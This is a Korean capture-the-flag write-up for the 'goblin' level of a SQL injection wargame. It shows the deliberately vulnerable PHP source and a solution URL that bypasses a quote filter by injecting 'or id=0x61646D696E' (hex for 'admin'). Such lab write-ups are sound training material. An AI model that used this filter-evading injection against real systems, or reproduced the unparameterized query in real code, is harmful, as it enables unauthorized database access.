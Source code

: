 # Los.eagle-jump.org-3
* 3번 문제 [goblin]
```javascript
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'|\"|\`/i', $_GET[no])) exit("No Quotes ~_~"); 
  $query = "select id from prob_goblin where id='guest' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("goblin");
  highlight_file(__FILE__); 
?>
```
쿼리문
```
query : select id from prob_goblin where id='guest' and no=
```


* Solution [쿼리를 이용해 로그인 시도]

1. php 소스를 보면 ',",` 등을 사용하지 못한다

2. 특정문자를 제외하고 파라미터를 작성

3. https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0 or id=admin

4. 0일떄는 참 1일떄는 거짓이므로 no=0, id는 if($result['id'] == 'admin') solve("goblin"); 이므로 id=admin

5. 위에 파라미터를 입력시 작동이되지않는다

6. ',",`을 사용하지않으면 admin을 인식하지못하므로 16진수로 변환 => 61646D696E

7. 0x를 사용하여 hex값임을 인식시켜준다

8. 정답: https://los.eagle-jump.org/goblin_5559aacf2617d21ebb6efe907b7dded8.php?no=0 or id=0x61646D696E

